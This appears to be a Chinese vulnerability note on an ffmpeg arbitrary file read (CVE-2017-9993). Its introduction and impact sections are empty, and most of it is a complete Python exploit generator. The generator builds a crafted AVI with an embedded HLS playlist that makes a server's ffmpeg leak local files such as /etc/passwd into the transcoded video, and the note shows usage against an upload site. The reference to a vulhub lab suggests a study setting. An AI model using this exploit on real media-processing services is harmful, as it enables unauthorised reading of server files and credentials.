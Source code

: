 Ffmpeg 任意文件读取漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

使用exp生成payload

    ./gen_xbin_avi.py file:///etc/passwd exp.avi

生成exp.avi，在`http://www.0-sec.org:8080/`上传。后端将会将你上传的视频用ffmpeg转码后显示，转码时因为ffmpeg的任意文件读取漏洞，可将文件信息读取到视频中：

![](./.resource/(CVE-2017-9993)Ffmpeg任意文件读取漏洞/media/rId24.png)

### poc

    #!/usr/bin/env python3
    import struct
    import argparse
    import random
    import string

    AVI_HEADER = b"RIFF\x00\x00\x00\x00AVI LIST\x14\x01\x00\x00hdrlavih8\x00\x00\x00@\x9c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00}\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\xa0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00LISTt\x00\x00\x00strlstrh8\x00\x00\x00txts\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x19\x00\x00\x00\x00\x00\x00\x00}\x00\x00\x00\x86\x03\x00\x00\x10'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\xa0\x00strf(\x00\x00\x00(\x00\x00\x00\xe0\x00\x00\x00\xa0\x00\x00\x00\x01\x00\x18\x00XVID\x00H\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00LIST    movi"

    ECHO_TEMPLATE = """### echoing {needed!r}
    #EXT-X-KEY: METHOD=AES-128, URI=/dev/zero, IV=0x{iv}
    #EXTINF:1,
    #EXT-X-BYTERANGE: 16
    /dev/zero
    #EXT-X-KEY: METHOD=NONE
    """

    # AES.new('\x00'*16).decrypt('\x00'*16)
    GAMMA = b'\x14\x0f\x0f\x10\x11\xb5"=yXw\x17\xff\xd9\xec:'

    FULL_PLAYLIST = """#EXTM3U
    #EXT-X-MEDIA-SEQUENCE:0
    {content}
    #### random string to prevent caching: {rand}
    #EXT-X-ENDLIST"""

    EXTERNAL_REFERENCE_PLAYLIST = """
    ####  External reference: reading {size} bytes from {filename} (offset {offset})
    #EXTINF:1,
    #EXT-X-BYTERANGE: {size}@{offset}
    {filename}
    """

    XBIN_HEADER = b'XBIN\x1A\x20\x00\x0f\x00\x10\x04\x01\x00\x00\x00\x00'


    def echo_block(block):
        assert len(block) == 16
        iv = ''.join(map('{:02x}'.format, [x ^ y for (x, y) in zip(block, GAMMA)]))
        return ECHO_TEMPLATE.format(needed=block, iv=iv)


    def gen_xbin_sync():
        seq = []
        for i in range(60):
            if i % 2:
                seq.append(0)
            else:
                seq.append(128 + 64 - i - 1)
        for i in range(4, 0, -1):
            seq.append(128 + i - 1)
        seq.append(0)
        seq.append(0)
        for i in range(12, 0, -1):
            seq.append(128 + i - 1)
        seq.append(0)
        seq.append(0)
        return seq


    def test_xbin_sync(seq):
        for start_ind in range(64):
            path = [start_ind]
            cur_ind = start_ind
            while cur_ind < len(seq):
                if seq[cur_ind] == 0:
                    cur_ind += 3
                else:
                    assert seq[cur_ind] & (64 + 128) == 128
                    cur_ind += (seq[cur_ind] & 63) + 3
                path.append(cur_ind)
            assert cur_ind == len(seq), "problem for path {}".format(path)


    def echo_seq(s):
        assert len(s) % 16 == 0
        res = []
        for i in range(0, len(s), 16):
            res.append(echo_block(s[i:i + 16]))
        return ''.join(res)


    test_xbin_sync(gen_xbin_sync())

    SYNC = echo_seq(gen_xbin_sync())


    def make_playlist_avi(playlist, fake_packets=1000, fake_packet_len=3):
        content = b'GAB2\x00\x02\x00' + b'\x00' * 10 + playlist.encode('ascii')
        packet = b'00tx' + struct.pack('<I', len(content)) + content
        dcpkt = b'00dc' + struct.pack('<I',
                                      fake_packet_len) + b'\x00' * fake_packet_len
        return AVI_HEADER + packet + dcpkt * fake_packets


    def gen_xbin_packet_header(size):
        return bytes([0] * 9 + [1] + [0] * 4 + [128 + size - 1, 10])


    def gen_xbin_packet_playlist(filename, offset, packet_size):
        result = []
        while packet_size > 0:
            packet_size -= 16
            assert packet_size > 0
            part_size = min(packet_size, 64)
            packet_size -= part_size
            result.append(echo_block(gen_xbin_packet_header(part_size)))
            result.append(
                EXTERNAL_REFERENCE_PLAYLIST.format(
                    size=part_size,
                    offset=offset,
                    filename=filename))
            offset += part_size
        return ''.join(result), offset


    def gen_xbin_playlist(filename_to_read):
        pls = [echo_block(XBIN_HEADER)]
        next_delta = 5
        for max_offs, filename in (
                (5000, filename_to_read), (500, "file:///dev/zero")):
            offset = 0
            while offset < max_offs:
                for _ in range(10):
                    pls_part, new_offset = gen_xbin_packet_playlist(
                        filename, offset, 0xf0 - next_delta)
                    pls.append(pls_part)
                    next_delta = 0
                offset = new_offset
            pls.append(SYNC)
        return FULL_PLAYLIST.format(content=''.join(pls), rand=''.join(
            random.choice(string.ascii_lowercase) for i in range(30)))


    if __name__ == "__main__":
        parser = argparse.ArgumentParser('AVI+M3U+XBIN ffmpeg exploit generator')
        parser.add_argument(
            'filename',
            help='filename to be read from the server (prefix it with "file://")')
        parser.add_argument('output_avi', help='where to save the avi')
        args = parser.parse_args()
        assert '://' in args.filename, "ffmpeg needs explicit proto (forgot file://?)"
        content = gen_xbin_playlist(args.filename)
        avi = make_playlist_avi(content)
        output_name = args.output_avi

        with open(output_name, 'wb') as f:
            f.write(avi)

参考链接
--------

> https://vulhub.org/\#/environments/ffmpeg/phdays/
